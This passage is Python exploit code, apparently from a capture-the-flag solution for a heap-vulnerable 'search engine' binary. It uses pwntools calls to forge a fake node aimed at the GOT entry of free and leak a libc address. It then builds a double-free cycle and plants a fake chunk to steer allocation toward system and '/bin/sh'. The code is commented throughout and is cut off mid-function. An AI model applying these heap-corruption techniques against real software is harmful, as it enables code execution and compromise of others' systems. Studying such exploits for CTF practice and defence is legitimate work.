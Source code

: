 ``` python
    # the location where our original string contained `b` is guaranteed to be
    # zero. this is because after the original sentence was zeroed out, nothing
    # was allocated at offset 12, which is just padding in the structure. if
    # we had made the first word in the string 16 bytes instead of 12, then that
    # would put 'b' at a location where it would not be guaranteed to be zero.
    search('\x00')
    p.sendline('y')

    # make our fake node
    node = ''
    node += p64(0x400E90) # word pointer "Enter"
    node += p64(5) # word length
    node += p64(0x602028) # sentence pointer (GOT address of free)
    node += p64(64) # length of sentence
    node += p64(0x00000000) # next pointer is null
    assert len(node) == 40

    # this sentence gets allocated on top of the previous sentence's node.
    # we can thus control the sentence pointer of that node and leak memory.
    index_sentence(node)

    # this simply receives all input from the binary and discards it, which
    # makes parsing out the leaked address easier below.
    p.clean()

    # leak the libc address
    search('Enter')
    p.recvuntil('Found 64: ')
    leak = u64(p.recvline()[:8])
    p.sendline('n') # deleting it isn't necessary
    return leak

def index_sentence(s):
    p.sendline('2')
    p.sendline(str(len(s)))
    p.sendline(s)

def search(s):
    p.sendline('1')
    p.sendline(str(len(s)))
    p.sendline(s)

def make_cycle():
    index_sentence('a'*54 + ' d')
    index_sentence('b'*54 + ' d')
    index_sentence('c'*54 + ' d')

    search('d')
    p.sendline('y')
    p.sendline('y')
    p.sendline('y')
    search('\x00')
    p.sendline('y')
    p.sendline('n')

def make_fake_chunk(addr):
    # set the fwd pointer of the chunk to the address we want
    fake_chunk = p64(addr)
    index_sentence(fake_chunk.ljust(56))

def allocate_fake_chunk(binsh_addr, system_addr):
    # allocate twice to get our fake chunk
    index_sentence('A'*56)
```